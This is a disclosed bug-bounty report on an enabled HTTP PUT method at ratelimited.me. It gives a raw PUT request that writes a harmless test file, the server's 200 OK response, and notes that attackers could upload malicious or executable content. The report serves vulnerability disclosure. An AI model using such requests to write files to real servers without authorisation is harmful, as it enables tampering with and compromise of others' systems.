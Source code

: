 # HTTP PUT method is enabled ratelimited.me

## Report Details
- **Report ID**: 487656
- **URL**: https://hackerone.com/reports/487656
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-01-29T08:30:10.536Z
- **Disclosed**: 2019-01-29T16:09:10.947Z

## Reporter
- **Username**: codeslayer1337
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ratelimited

## Vulnerability Information
Found on HTTP PUT sites enabled on web servers. I tried testing to write the file / codelayer137.txt uploaded to the server using the PUT verb, and the contents of the file were then taken using the GET verb. the following is POC

Request:
PUT /codeslayer137.txt HTTP/1.1
Host: ratelimited.me
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: id,en-US;q=0.7,en;q=0.3
Connection: close
Cookie: __cfduid=dfa5166b2ed63c2a5078df85a46ec5e941548497323; fs_uid=rs.fullstory.com`HCE07`5768820354449408:5743114304094208; cookieconsent_status=dismiss; mp_9e50b60442d3361880f79100f15e5aac_mixpanel=%7B%22distinct_id%22%3A%20%2216889a21237498-0766105008d6a5-12666d4a-e1000-16889a212387c%22%2C%22%24device_id%22%3A%20%2216889a21237498-0766105008d6a5-12666d4a-e1000-16889a212387c%22%2C%22%24initial_referrer%22%3A%20%22%24direct%22%2C%22%24initial_referring_domain%22%3A%20%22%24direct%22%7D
Upgrade-Insecure-Requests: 1
If-Modified-Since: Sun, 27 Jan 2019 00:07:53 GMT
Content-Length: 21

Testing CodeSlayer137


Response:
HTTP/1.1 200 OK
Date: Tue, 29 Jan 2019 08:24:15 GMT
Content-Type: text/plain
Content-Length: 0
Connection: close
Accept-Ranges: bytes
Content-Security-Policy: block-all-mixed-content
Etag: "be3b22647a7d52f2f662109652e629fc"
Vary: Origin
X-Amz-Request-Id: 157E4426C0B3D211
X-Minio-Deployment-Id: ebc7a0d8-9f47-4bdb-92ee-4a9cbbd3ec48
X-Xss-Protection: 1; mode=block
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 4a0a4d20791f31a4-SIN

## Impact

The HTTP PUT method is normally used to upload data that is saved on the server at a user-supplied URL. If enabled, an attacker may be able to place arbitrary, and potentially malicious, content into the application. Depending on the server's configuration, this may lead to compromise of other users (by uploading client-executable scripts), compromise of the server (by uploading server-executable code), or other attacks.

## Attachments
- PUT-.png
- filetxtcode137.png
